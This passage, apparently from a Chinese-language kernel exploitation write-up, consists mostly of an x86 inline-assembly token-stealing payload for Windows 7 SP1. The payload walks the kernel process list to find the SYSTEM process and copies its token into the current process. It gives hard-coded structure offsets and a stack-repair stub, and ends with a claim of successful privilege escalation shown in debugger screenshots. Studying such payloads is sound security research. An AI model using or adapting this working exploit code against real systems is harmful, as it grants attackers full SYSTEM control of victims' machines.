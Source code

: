 payload：

```
__asm {
       pushad                               ; 保存寄存器
 
 
       xor eax, eax                         ;eax置0
       mov eax, fs:[eax + KTHREAD_OFFSET]   ; 获得当前线程的_KTHREAD结构，KTHREAD_OFFSET=0x124
                                            ; FS:[0x124] 是 _KTHREAD结构
 
       mov eax, [eax + EPROCESS_OFFSET]     ;  找到_EPROCESS结构， nt!_KTHREAD.ApcState.Process，EPROCESS_OFFSET 0x50
 
 
       mov ecx, eax                         ; ecx ，当前进程Eprocess结构体
 
       mov edx, SYSTEM_PID                  ; WIN 7 SP1 SYSTEM process PID = 0x4
 
       SearchSystemPID:
           mov eax, [eax + FLINK_OFFSET]    ; Get nt!_EPROCESS.ActiveProcessLinks.Flink，FLINK_OFFSET=0xb8
           sub eax, FLINK_OFFSET
           cmp [eax + PID_OFFSET], edx      ; Get nt!_EPROCESS.UniqueProcessId，PID_OFFSET=0xb4
           jne SearchSystemPID              ;遍历链表根据PID判断是否为SYSTEM_PID(0x4)
       //替换token
       mov edx, [eax + TOKEN_OFFSET]        ; 获得系统进程token  。TOKEN_OFFSET=0xf8
       mov [ecx + TOKEN_OFFSET], edx        ; 系统进程token替换当前进程token
 
       ; End of Token Stealing Stub
 
       popad                                ; Restore registers state
 
       ; Kernel Recovery Stub
       xor eax, eax                         ; Set NTSTATUS SUCCEESS
       add esp, 12                          ; Fix the stack
       pop ebp                              ; Restore saved EBP
       ret 8                                ; Return cleanly
   }

```

运行 exp，windbg:

 

![](https://img-blog.csdnimg.cn/img_convert/90e34c340263a564273df7ea3715ecf6.png)

 

提权成功：

 

![](https://img-blog.csdnimg.cn/img_convert/8c95c90ecc50259d877f6742011110e7.png)
